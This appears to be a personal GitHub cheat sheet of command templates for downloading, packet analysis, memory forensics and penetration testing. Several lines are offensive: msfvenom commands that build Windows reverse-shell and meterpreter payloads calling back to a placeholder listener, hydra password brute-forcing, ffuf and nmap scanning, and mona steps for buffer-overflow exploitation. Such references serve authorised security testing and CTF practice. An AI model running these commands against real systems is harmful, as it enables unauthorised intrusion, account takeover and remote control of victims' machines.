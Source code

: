 # Command-Templates
## Just a few template commands to copy because I'm forgetful

### wget (Downloading a directory)
```
wget -r -np -nH --cut-dirs=3 -R index.html <DIRECTORY>
```

### yt-dlp (Downloading the best quality from a file)
```
yt-dlp  --merge-output-format mp4 -f "bestvideo+bestaudio[ext=m4a]/best" -a likes.txt
```

### tshark (Extracting dns records)
```
tshark -r <PACKET_FILE> -Tfields -e dns.qry.name -Y "ip.src_host==<IP_ADDRESS>" > <TXT_FILE>
```

### ffuf (Recursive directory scanning)
```
ffuf -w <WORDLIST> -u http://<IP_ADDRESS>/FUZZ -o <OUTPUT_FILE> --recursion -fc 403
```

### nmap (Basic network scanning)

```
nmap -sC -sV --oN <OUTPUT_FILE> -vv -Pn <IP_ADDRESS>
```

### msfvenom (Simple Windows Payload)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LISTENING_IP_ADDRESS> LPORT=<LISTENING_PORT> -f exe -e x86/shikata_ga_nai -o <OUTPUT_FILE>
```

### msfvenom (Simple Windows Payload Shell)
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f py -b [bad characters]
```

### hydra (brute forcing)
```
hydra -S -v -l <USERNAME> -P <PASSWORD> -s 995 -f <IP_ADDRESS> <SERVICE> -V
```

### hydra (http-post-form)
```
hydra -t 4 -V -l <USERNAME> -P <PASSWORD_LIST> <IP_ADDRESS> http-post-form "<DIRECTORY>:<RAW_POST_REQUEST>:<ERROR_MESSAGE>"
```

### hydra (pop up login page)
```
hydra -l usernames.txt -P <PASSWORD> <IP_ADDRESS> http-get / -V
```

### Immunity Debugger (Finding bad characters)
```
!mona bytearray -b "\x00"
!mona compare -f <binary file> -a <address>
```

### Immunity Debugger (Finding a jump point)
```
!mona jmp -r esp -cpb [bad characters]
```

### Volatility 3 (Dumping Windows Files)
```
./vol.py -f <PATH_TO_MEMDUMP> windows.dumpfiles.DumpFiles --dump --pid <PID> 
```

### Examining .DS_Store
```
xxd -p <path/to/.DS_Store> | sed 's/00//g' | tr -d '\n' | sed 's/\([0-9A-F]\{2\}\)/0x\1 /g' | xxd -r -p | strings | sed 's/ptb[LN]ustr//g'
```

### Connecting to pop3 with SSL
```
openssl s_client -connect <IP_ADDRESS>:<PORT> -crlf -quiet
```
